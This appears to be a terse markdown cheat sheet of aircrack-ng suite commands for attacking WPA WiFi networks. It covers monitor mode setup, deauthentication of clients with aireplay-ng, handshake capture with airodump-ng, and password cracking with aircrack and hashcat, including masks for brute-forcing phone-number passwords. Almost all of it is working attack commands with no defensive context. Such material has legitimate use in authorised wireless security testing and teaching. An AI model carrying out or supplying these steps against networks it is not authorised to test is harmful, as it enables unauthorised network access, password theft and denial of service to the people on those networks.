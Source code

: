 - airmon-ng [start|stop] [iface] [channel]
- aireplay-ng -ignore-negative-one -0 [count] -a [access point mac] -c [client mac]
- airodump-ng -ignore-negative-one [iface] [-w prefix]

- Before starting wireless into monitor mode
  - airmon-ng check kill
  
- Setup monitoring
  - airmon-ng start device
    - Eg: airmon-ng start wlan0
  
- Sniff Air and capturing handshake
  - airodump-ng -w [cap_file_path] -c [ch] --bssid [bssid] [dev]
    - Eg: airodump-ng wlan0mon -c 11 -w wifi.cap --bssid 01:01:01:01:01
     
- cracking wireless password
  - aircrack [cap_file_path] -w [wordlist]
  
- cracking password using Hashcat
  - aircrack-ng [saved_cap_file_from_airodump.cap] -J [save_output_file.hash] 
    - Eg: aircrack-ng wifi.cap -J hashcatpass.hash
      .
      .
      .
      .
      .
      .
      .
      Index number of target network: 4
  - It generates the hccap file for Hashcat
  
  - Hashcat password cracking when ssid is protected using mobile number. 
    - hashcat64.bin -a 3 -m 2500 -w 3 hashcatpass.hash ?d?d?d?d?d?d?d?d?d?d -o WPAoutput.pot
    - hashcat64.bin -a 3 -m 2500 -w 3 hashcatpass.hash 04?d?d?d?d?d?d?d?d -o WPAoutput.pot = crack SSID password which starts from 04.
    - 
  
